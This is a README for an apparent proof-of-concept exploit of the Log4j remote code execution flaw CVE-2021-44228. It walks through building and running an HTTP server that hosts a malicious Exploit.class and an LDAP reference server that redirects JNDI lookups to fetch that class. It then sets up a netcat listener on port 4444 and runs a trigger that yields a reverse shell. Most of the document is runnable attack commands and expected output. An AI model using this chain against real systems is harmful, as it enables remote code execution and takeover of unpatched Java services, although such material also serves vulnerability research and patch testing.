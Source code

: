 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

### Requirements

Java 8 required.

### Usage

## 1. Using Docker

Build project.

```
./build.sh
# Runs the following commands:
#   cd CVE-2021-44228-Apache-Log4j-Rce/
#   javac Exploit.java
#   mvn clean package
#   docker build -t server . # Build python server docker image
#   cd ../marshalsec/
#   docker build -t japp . # Build ldap server docker image
#   cd ..
```

Run httpserver.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
./run.sh
# Runs the following command:
#   docker run --rm -it --name server -p 8888:8888 server
```

Run LDAP server.

```
cd marshalsec/
./run.sh
# Runs the following command
#   docker run --rm -it --name japp -p 1389:1389 japp
```

Create listener on port 4444.

```
nc -nlvp 4444
```

Run payload to execute reverse shell connection to our listener.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

You will now be able to execute shell commands.

## 2. Running everything locally

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Compile exploit code and run python web server.

```
cd CVE-2021-44228-Apache-Log4j-Rce
javac Exploit.java

# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888

# Make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

Build and run the vulnerable jndi LDAP server.

```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Build and run the activation code (simulate an log4j attack on a vulnerable java web server).

```
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j

# 1. in ldapserver console,
#  Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
# 2. in webserver console,
#  127.0.0.1 - - [....] "GET /Exploit.class HTTP/1.1" 200 -
```

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```